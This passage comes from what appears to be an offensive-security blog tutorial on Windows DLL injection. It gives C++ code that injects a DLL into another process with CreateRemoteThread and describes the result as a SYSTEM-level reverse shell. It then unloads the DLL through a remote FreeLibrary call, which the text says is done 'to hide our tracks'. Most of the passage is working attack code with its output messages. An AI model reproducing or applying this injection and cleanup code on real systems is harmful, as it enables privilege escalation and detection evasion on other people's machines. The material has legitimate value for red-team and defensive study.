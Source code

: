 ```c++
        if (!CreateRemoteThread(processHandle, NULL, 0, threadStartRoutineAddress, remoteBuffer, 0, NULL))
        {
            printf("[!] couldn't create remote thread...Error Code: %d", GetLastError());
            exit(0);
        }
        printf("[+] Remote Process Injection completed successfully!!!\n");
        printf("[+] Now, time to unload the injected dll to hide our tracks...\n");
        Sleep(5000);
```
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/29a18a5a-9109-42a8-a594-c9a96af986f8)
![image](https://github.com/g3tsyst3m/g3tsyst3m.github.io/assets/19558280/2fc6e10f-d181-4c96-8328-f2c409de1b29)


Wrap it all up!
-
While we're all incredibly excited about the newly popped SYSTEM shell via DLL injection, we still need to clean up our mess.  

After the DLL creates the reverse shell, it's no longer needed and can be safely unloaded.  Here's how we can accomplish that and also screenshots in ProcessHacker/System Informer demonstrating the DLL being loaded and unloaded

```c++
 //close module handle to dll
        if (EnumProcessModules(processHandle, hMods, sizeof(hMods), &cbNeeded))
        {
            for (i = 0; i < (cbNeeded / sizeof(HMODULE)); i++)
            {
                TCHAR szModName[MAX_PATH];

                // Get the full path to the module's file.

                if (GetModuleFileNameEx(processHandle, hMods[i], szModName,
                    sizeof(szModName) / sizeof(TCHAR)))
                {
                    // Print the module name and handle value.
                    if (_tcscmp(szModName, L"C:\\Users\\public\\mig2.dll") == 0)
                    {
                        printf("[+] found the dll within the injected process!\n");
                        _tprintf(L"\t%s (0x%08X)\n", szModName, hMods[i]);

                        
                        PTHREAD_START_ROUTINE threadStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "FreeLibrary");
                        if (!CreateRemoteThread(processHandle, NULL, 0, threadStartRoutineAddress, hMods[i], 0, NULL))
                        {
                            printf("[!] couldn't create remote thread...Error Code: %d", GetLastError());
                            exit(0);
                        }
                        else
                        {
                            std::cout << "[+] CreateRemoteThread success and injected dll unloaded!  Enjoy your shell ;)\n";
                            exit(0);
                        }

                    }
                }
            }
        }
```